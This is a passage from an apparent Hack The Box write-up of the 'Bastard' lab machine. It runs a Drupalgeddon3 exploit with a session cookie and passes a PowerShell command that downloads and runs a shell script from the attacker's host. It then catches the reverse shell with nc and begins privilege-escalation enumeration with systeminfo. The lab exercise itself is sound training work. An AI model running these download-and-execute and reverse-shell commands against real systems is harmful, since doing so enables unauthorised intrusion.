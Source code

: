 
#### Shell - Nishang

So I can get a shell this way with Nishang:

    
    
    root@kali# python drupalgeddon3.py http://10.10.10.9/ "SESSd873f26fc11f2b7e6e4aa0f6fce59913=GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs" 1 "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/shell.ps1')"
    
    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.9.
    Ncat: Connection from 10.10.10.9:62897.
    Windows PowerShell running as user BASTARD$ on BASTARD
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\inetpub\drupal-7.54>
    

## Privesc to system

### Enumeration

I ran `systeminfo` and noticed that there’s no service path or hotfixes
applied to this box:

    
    
    PS C:\inetpub\drupal-7.54> systeminfo
    
    Host Name:                 BASTARD
    OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
    OS Version:                6.1.7600 N/A Build 7600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Server
    OS Build Type:             Multiprocessor Free
    Registered Owner:          Windows User
    Registered Organization:   
    Product ID:                00496-001-0001283-84782
    Original Install Date:     18/3/2017, 7:04:46 ??
    System Boot Time:          4/3/2019, 1:56:57 ??
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               x64-based PC
    Processor(s):              2 Processor(s) Installed.
                               [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
                               [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             el;Greek
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
    Total Physical Memory:     2.048 MB
    Available Physical Memory: 1.550 MB
    Virtual Memory: Max Size:  4.095 MB
    Virtual Memory: Available: 3.582 MB
    Virtual Memory: In Use:    513 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    HTB
    Logon Server:              N/A
    Hotfix(s):                 N/A